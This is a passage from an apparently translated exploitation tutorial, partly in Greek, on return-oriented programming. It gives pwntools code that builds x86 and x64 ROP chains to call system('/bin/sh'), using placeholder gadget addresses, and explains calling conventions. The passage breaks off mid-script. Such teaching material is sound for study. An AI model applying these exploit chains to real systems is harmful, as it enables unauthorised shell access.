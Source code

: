 ```python

# Construct the ROP chain
rop_chain = [
ret_gadget,    # This gadget is used to align the stack if necessary, especially to bypass stack alignment issues
system_addr,   # Address of system(). Execution will continue here after the ret gadget
0x41414141,    # Placeholder for system()'s return address. This could be the address of exit() or another safe place.
bin_sh_addr    # Address of "/bin/sh" string goes here, as the argument to system()
]

# Flatten the rop_chain for use
rop_chain = b''.join(p32(addr) for addr in rop_chain)

# Send ROP chain
## offset is the number of bytes required to reach the return address on the stack
payload = fit({offset: rop_chain})
p.sendline(payload)
p.interactive()
```
## ROP Chain in x64 Example

### **x64 (64-bit) Calling conventions**

* Χρησιμοποιεί τη **System V AMD64 ABI** κλήση σε Unix-like συστήματα, όπου τα **πρώτα έξι ακέραια ή δείκτες παραμέτρων περνούν στους καταχωρητές `RDI`, `RSI`, `RDX`, `RCX`, `R8`, και `R9`**. Πρόσθετες παράμετροι περνούν στο στοίβα. Η τιμή επιστροφής τοποθετείται στο `RAX`.
* Η κλήση **Windows x64** χρησιμοποιεί `RCX`, `RDX`, `R8`, και `R9` για τις πρώτες τέσσερις ακέραιες ή δείκτες παραμέτρους, με πρόσθετες παραμέτρους να περνούν στο στοίβα. Η τιμή επιστροφής τοποθετείται στο `RAX`.
* **Καταχωρητές**: Οι 64-bit καταχωρητές περιλαμβάνουν `RAX`, `RBX`, `RCX`, `RDX`, `RSI`, `RDI`, `RBP`, `RSP`, και `R8` έως `R15`.

#### **Finding Gadgets**

Για τον σκοπό μας, ας επικεντρωθούμε σε gadgets που θα μας επιτρέψουν να ρυθμίσουμε τον **RDI** καταχωρητή (για να περάσουμε τη **"/bin/sh"** συμβολοσειρά ως παράμετρο στη **system()**) και στη συνέχεια να καλέσουμε τη **system()** συνάρτηση. Θα υποθέσουμε ότι έχουμε εντοπίσει τα εξής gadgets:

* **pop rdi; ret**: Αφαιρεί την κορυφαία τιμή του στοίβας στον **RDI** και στη συνέχεια επιστρέφει. Απαραίτητο για να ρυθμίσουμε την παράμετρο μας για τη **system()**.
* **ret**: Μια απλή επιστροφή, χρήσιμη για την ευθυγράμμιση του στοίβας σε ορισμένα σενάρια.

Και γνωρίζουμε τη διεύθυνση της **system()** συνάρτησης.

### **ROP Chain**

Παρακάτω είναι ένα παράδειγμα που χρησιμοποιεί **pwntools** για να ρυθμίσει και να εκτελέσει μια ROP αλυσίδα που στοχεύει να εκτελέσει **system('/bin/sh')** σε **x64**:
```python
from pwn import *

# Assuming we have the binary's ELF and its process
binary = context.binary = ELF('your_binary_here')
p = process(binary.path)

# Find the address of the string "/bin/sh" in the binary
bin_sh_addr = next(binary.search(b'/bin/sh\x00'))

# Address of system() function (hypothetical value)
system_addr = 0xdeadbeefdeadbeef

# Gadgets (hypothetical values)
pop_rdi_gadget = 0xcafebabecafebabe  # pop rdi; ret
```
